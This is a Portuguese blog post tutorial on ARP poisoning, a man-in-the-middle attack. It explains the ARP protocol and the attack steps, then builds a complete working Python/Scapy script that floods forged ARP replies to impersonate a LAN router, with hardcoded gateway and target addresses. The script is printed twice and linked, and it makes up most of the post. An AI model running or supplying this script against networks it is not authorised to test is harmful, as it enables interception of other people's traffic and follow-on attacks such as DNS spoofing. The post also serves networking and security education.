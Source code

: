 ```yaml
---
title: 'ARP Poisoning: O que é e como realizar este ataque MITM'
date: '2024-08-03'
summary: 'O que é e como funciona o ARP poisoning, um dos mais famosos ataques man-in-the-middle, e como explorá-lo usando Scapy em python.'
tags: ['hacking', 'mitm']
draft: false
---
```


![ARP Spoofing](/static/images/arp-spoof/arp-spoofing.jpg)
O que é e como funciona o ARP poisoning, um dos mais famosos ataques man-in-the-middle, e como explorá-lo usando Scapy em python.

---

<TOCInline toc={props.toc} asDisclosure />

## O que é o ARP

Na rede interna, os computadores se comunicam através do MAC address, e o ARP é o protocolo responsável pela identificação do MAC de cada máquina através de seu endereço IP.

Quando uma máquina vai se comunicar com a outra, ela manda um pacote ARP Broadcast ao MAC ff:ff:ff:ff:ff:ff com o destino sendo o IP da máquina alvo, este pacote passa por todos da rede e quem possuir o IP informado, responderá com o seu endereço MAC.

Para economizar recursos, cada máquina salva um cache com os MACs dos usuários da rede.

O ARP Poisoning attack atua nesse cache, “envenenando-o” e se passando pelo roteador, o que permite realizar diversos outros ataques, pois ao se passar pelo roteador todo o tráfego da rede passará por ele, permitindo sniffers, DNS Spoofing, etc.

## Como funciona o ataque

![ARP Poisoning](/static/images/arp-spoof/arp-poisoning.png)

### Envenenando o ARP

Primeiro o atacante envia uma requisição falsa ao roteador se passando pelo alvo.
Em seguida, envia um pacote ao alvo se passando pelo roteador, porém, usando o seu próprio endereço MAC.
Com isso o alvo identifica o IP do roteador como sendo dono do MAC address do atacante, e em um ataque, enviando infinitamente esta sequência de pacotes, nós conseguimos envenenar o ARP cache do alvo e nos passar pelo roteador!

### Restaurando o ARP

Para restaurar o ARP cache, o atacante envia novamente uma requisição ao roteador se passando pelo alvo, e em seguida envia um pacote ao alvo se passando pelo roteador, porém, com o MAC address real do roteador, assim restaurando o ARP cache.

## Criando o script

Agora que já entendemos como funciona o ataque vamos criar um script em Python que faça isso por nós!

Vamos começar importando o Scapy, biblioteca que iremos usar para criar os nossos pacotes.
```python:arppoison.py
from scapy.all import *
```

Agora vamos criar a função responsável por conseguir o mac address do roteador e do alvo:
```python:arppoison.py
def get_mac_address(ip):
    arp_broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=ip) # Cria o pacote falso de ARP Request
    ans, uns = srp(arp_broadcast, timeout=2, verbose=0) # Envia o pacote e espera uma resposta

    return ans[0][1][1].hwsrc
```

E agora a função que enviará os pacotes para o envenenamento do ARP:
```python:arppoison.py
def poison_arp(dest_ip, dest_mac, src_ip):
    arp_spoof = ARP(op=2, psrc=src_ip, pdst=dest_ip, hwdst=dest_mac) # Cria o pacote falso
    send(arp_spoof, verbose=0) # Envia o pacote
```

Função que irá restaurar o ARP do alvo:
```python:arppoison.py
def restore_arp(dest_ip, dest_mac, src_ip, src_mac):
    pkt = ARP(op=2, hwsrc=src_mac, hwdst=dest_mac, psrc=src_ip, pdst=dest_ip) # Cria o pacote para restaurar o arp
    send(pkt, verbose=0) # Envia o pacote
```

Função que irá executar o ataque:
```python:arppoison.py
def main(gateway, target):
    target_mac  = get_mac_address(target) # Captura o mac do alvo
    gateway_mac = get_mac_address(gateway) # Captura o mac do roteador

    print("Target MAC: "+target_mac)
    print("Gateway MAC: "+gateway_mac)

    try:
        while True:
            print("Envenenando o ARP")
            poison_arp(gateway, gateway_mac, target) # Envia a requisição ao roteador
            poison_arp(target, target_mac, gateway) # Envia a resposta falsa ao alvo
    except KeyboardInterrupt:
        print("Restaurando ARP")
        restore_arp(target, target_mac, gateway, gateway_mac) # Restaura o ARP
        restore_arp(gateway, gateway_mac, target, target_mac) # Restaura o ARP
```

E por fim, as instruções para iniciar o ataque:
```python:arppoison.py
if __name__ == "__main__":
    gateway = "192.168.1.1"
    target  = "192.168.1.106"

    print("Iniciando o ataque")
    main(gateway,target) # Inicia o ataque
```

Nosso código está pronto! Com isso já podemos envenenar o ARP do nosso alvo e realizar diversos outros ataques, como o DNS Spoofing que irei demonstrar no próximo artigo.

Código final:

```python:arppoison.py showLineNumbers
from scapy.all import *

def get_mac_address(ip):
    arp_broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=ip) # Cria o pacote falso de ARP Request
    ans, uns = srp(arp_broadcast, timeout=2, verbose=0) # Envia o pacote e espera uma resposta

    return ans[0][1][1].hwsrc

def poison_arp(dest_ip, dest_mac, src_ip):
    arp_spoof = ARP(op=2, psrc=src_ip, pdst=dest_ip, hwdst=dest_mac) # Cria o pacote falso
    send(arp_spoof, verbose=0) # Envia o pacote

def restore_arp(dest_ip, dest_mac, src_ip, src_mac):
    pkt = ARP(op=2, hwsrc=src_mac, hwdst=dest_mac, psrc=src_ip, pdst=dest_ip) # Cria o pacote para restaurar o arp
    send(pkt, verbose=0) # Envia o pacote

def main(gateway, target):
    target_mac  = get_mac_address(target) # Captura o mac do alvo
    gateway_mac = get_mac_address(gateway) # Captura o mac do roteador

    print("Target MAC: "+target_mac)
    print("Gateway MAC: "+gateway_mac)

    try:
        while True:
            print("Envenenando o ARP")
            poison_arp(gateway, gateway_mac, target) # Envia a requisição ao roteador
            poison_arp(target, target_mac, gateway) # Envia a resposta falsa ao alvo
    except KeyboardInterrupt:
        print("Restaurando ARP")
        restore_arp(target, target_mac, gateway, gateway_mac) # Restaura o ARP
        restore_arp(gateway, gateway_mac, target, target_mac) # Restaura o ARP

if __name__ == "__main__":
    gateway = "192.168.1.1"
    target  = "192.168.1.106"

    print("Iniciando o ataque")
    main(gateway,target) # Inicia o ataque
```
[Código Final](https://gist.github.com/ReddyyZ/e8f3ccbe5441e3e3068e573e5578072c#file-arppoison-py)